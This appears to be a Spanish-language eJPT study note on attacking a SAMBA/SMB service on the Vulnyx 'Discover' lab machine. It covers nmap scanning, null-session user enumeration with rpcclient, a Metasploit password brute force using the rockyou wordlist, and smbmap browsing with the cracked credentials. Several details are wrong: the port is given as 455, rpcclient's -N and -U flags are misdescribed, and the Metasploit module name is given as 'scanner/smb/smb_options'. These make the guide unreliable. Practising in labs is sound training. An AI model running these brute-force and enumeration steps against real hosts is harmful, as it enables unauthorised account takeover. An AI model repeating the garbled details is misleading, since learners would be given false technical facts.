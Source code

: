 
---
- TAG: #Identificación #Usuarios #SAMBA #RPCCLIENT
-----

# Protocolo SAMBA y Fuerza Bruta con Metasploit

Vamos a reforzar un poco sobre el protocolo **SAMBA** que corre por el puerto **455**, pero sirve para que lo sistemas operativos que no sean windows puedan comicarse con los dispositivos que si usen **SMB**, esto puede ser muy típico en algunos sistemas operativos, asi que si en el examen estamos frente a una máquina **Linux** que utilice el protocolo **SAMBA**, para estos casos hay que tomar en cuenta que contamos con la herramienta **RPCCLIENT** que nos permite encontrar usuarios validos y existentes que luego nos servirán para realizar ataques de fuerza bruta, asi que vamos a ver como se enumera y como se hace:

## Preparación

Para esta ocasión vamos a estar utilizando la máquina de [Vulnyx - Discover](https://vulnyx.com/#discover), Es una máquina medium, pero tranquilos que solo estaremos viendo como explotar esa pequeña parte del puerto **455** de esta máquina.

- Descargamos la máquina
- La extramos
- La importamos a nuestro virtualizador
- Configuramoramos el adaptador puente
- La iniciamos 

## Enumeración desde Kali Linux

Ahora nos dirigimos a nuestra máquian **Kali Linux** y hacemos el correcto procedimiento

- Realizamos un `arp-scan` para localizar a la máquina de **Vulnyx**
- Realizamos un escaneo con `nmap` para encontrar información sobre la máquina objetivo

```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -n -vvv -Pn 1.2.3.4 -oN escaneo
```

Nos encontramos con el puerto **445** por el protocoló **SAMBA** que nos indica a mano derecha, recuerden que **SAMBA** es muy parecido al concepto de **SMB**
- **SMB** utiliza Windows por el puerto 445 para compartir archivos por la red 
- **SAMBA** Básicamente es lo que se emplea para que una máquina Linux pueda conectarse a una máquina Windows que use prácticamente el protocolo **SMB** 

En ambos casos corren por el puerto `445`
Ahora lo interesante sería encontrar usuarios para realizar ataques de fuerza bruta con **Hydra** o **Metasploit**.
### Enumeración de Usuarios con `rpcclient`

Pero en este caso **NO** tenemos **NI** usuario, **NI** contraseña, lo primero que haríamos en estos casos es buscar usuarios existentes dentro de esta máquina, lo haría de la siguiente manera utilizando la herramienta **rpcclient**:

- `-U` Nos permite indicar que queremos encontrar usuarios
- `-N` Para indicarle la dirección ip

```bash
rpcclient -U "" -N 1.2.3.4
```

Se nos abrirá una consola para insertar comandos de `rpcclient`, para esto es importante saber 3 comandos que nos van a servir de mucho para extraer información.

### Comandos importantes en `rpcclient`:

1. `srvinfo` Obtenemos una breve información sobre la máquina 
2. `querydispinfo` Nos mostrará los usuarios validos de la máquina 
3. `enumdomusers` Tambien nos mostrara usuarios en caso de que no valga querydispinfo

Al momento de encontrarnos con los usuarios validos podemos empezar a realizar ataques de fuerza bruta para encontrar la contraseña 

### Ataques de Fuerza Bruta con Metasploit

Utilizaremos **Metasploit** para poder realizar ataques de fuerza bruta al puerto **455**
Ingresamos primero al **msfconsole**

1. usamos `scanner`
```bash
use scanner/smb/smb_options
```

2. Vemos las configuraciones
```bash
show options
```

3. Le asignamos la ip de la máquina victima 
```bash
set RHOSTS 1.2.3.4
```

4. En  `PASS_FILE` le pasamos el diccionarios **rockyou**
```bash
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

5. Le quitamos el *VERBOSE* para que vaya mucho más rapido el escaneo y no nos muestre los intentos fallidos
```bash
set VERBOSE false
```

6. Le asignamos el usuario `ken` a `SMBUser`
```bash
set SMBUser ken
```

7. Ejecutamos el ataque 
```bash
run
```

Después de esperar veremos que nos encontramos con el usuario y la contraseña

### Enumeración de Recursos Compartidos

Una vez obtenido el usuario y la contraseña podemos empezar a enumerar con `smbclient` `smbmap`, podemos listar recursos compartidos por la red 

Un ejemplo con `smbmap`

```bash
smbmap -u 'ken' -p 'kenken' -H 1.2.3.4
```

Una vez dentro podemos listar recursos compartidos 

Si queremos ingresar dentro del recurso `ken` que muestra en pantalla realizamos 
```bash
smbmap -u 'ken' -p 'kenken' -H 1.2.3.4 -r ken
```

### Conclusión

Hemos visto cómo utilizar `rpcclient` para enumerar usuarios en una máquina que utiliza el protocolo SAMBA y cómo realizar ataques de fuerza bruta para obtener contraseñas usando Metasploit. Este conocimiento es esencial para el examen eJPT y para situaciones en las que nos enfrentemos a máquinas Linux que utilicen SAMBA.

